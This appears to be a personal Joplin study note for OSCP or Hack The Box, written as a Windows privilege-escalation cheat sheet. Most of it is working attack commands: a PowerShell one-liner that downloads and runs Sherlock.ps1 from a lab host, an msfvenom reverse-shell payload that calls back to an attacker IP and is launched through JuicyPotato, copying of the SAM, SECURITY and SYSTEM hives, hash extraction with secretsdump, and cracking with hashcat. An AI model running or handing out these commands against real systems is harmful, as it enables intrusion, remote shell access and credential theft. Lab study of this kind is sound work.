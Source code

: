 Windows Guide

https://www.hackingdream.net/2020/03/windows-privilege-escalation-cheatsheet-for-oscp.html

https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/rottenpotato

## Check scheduled tasks

> schtasks /query /fo LIST /v

# Sherlock (Automated Enumeration)

> powershell -nop "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.160/Sherlock.ps1'); Find-AllVulns"

Based on the enumeration, we can try to use the different exploits available on those vulnerabilities

![7ac78b34a9180d54a231b9f8bf063cab.png](:/a75fa5ccd5164f65b9f93e45365f161e)

# Windows Exploit Suggester (Offline Recommendation)

Step 1: Obtain systeminfo of the target and copy into a .txt file

> systeminfo

Step 2: Run it inside the Exploiter program (in ~/privesc)

> ./windows-exploit-suggester.py --database 2022-04-25-mssb.xls --systeminfo ../../htb/granny/systeminfo.txt

# whoami /priv

## SeImpersonatePrivilege

Use Juicy Potato exploit (2018 only for older Windows than 10.1809)

[https://jlajara.gitlab.io/others/2020/11/22/Potatoes\_Windows\_Privesc.html](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)

> msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=192.168.119.168 LPORT=6001 -f exe -o privesc.exe
> 
> JuicyPotato.exe -t t -p privesc.exe -l 8888 (free port)

## Only SeChangeNotifyPrivilege Enabled

Try to obtain higher privileges with UACBypass

https://ivanitlearning.wordpress.com/2019/07/07/bypassing-default-uac-settings-manually/

# Obtain System Credentials (SAM, Security, SYSTEM)

## Step 1: Obtain the following files from the Windows Machine

> C:\\Windows\\System32\\config\\RegBack\\SAM.OLD
> 
> C:\\Windows\\System32\\config\\RegBack\\SECURITY.OLD
> 
> C:\\Windows\\System32\\config\\RegBack\\SYSTEM.OLD

## Step 2: Use Secretsdump to obtain the hashes

> impacket-secretsdump -sam SAM.OLD -security SECURITY.OLD -system SYSTEM.OLD LOCAL

## Step 3: Hashcat the hashes to obtain the credentials

> hashcat -m 1000 --force -a 0 -o crack.txt hash.txt /usr/share/wordlists/rockyou.txt

id: 5e4294f0738d4d969fc5e1aa80617d0b
parent_id: 2deea0a2fd65431c90074dad6a2d5de8
created_time: 2022-04-22T08:40:22.576Z
updated_time: 2022-05-18T14:41:27.945Z
is_conflict: 0
latitude: 1.30360000
longitude: 103.85540000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-04-22T08:40:22.576Z
user_updated_time: 2022-05-18T14:41:27.945Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1